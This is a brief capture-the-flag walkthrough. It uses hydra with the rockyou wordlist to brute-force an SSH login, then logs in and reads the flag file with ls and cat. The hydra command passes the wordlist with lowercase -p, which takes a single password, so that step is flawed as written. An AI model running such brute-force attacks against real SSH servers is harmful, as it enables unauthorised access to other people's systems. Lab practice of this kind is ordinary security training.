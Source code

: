 # West End Guide

1. Type hydra -l *username* -p Downloads/rockyou.txt ssh://*IP*:*port*
2. Once that works, you are told the password, do this: ssh *username*@*IP* -p *port*
3. Type the password when prompted
4. Type 'ls'
5. Type cat then the output of ls.
6. Put flag into challenge.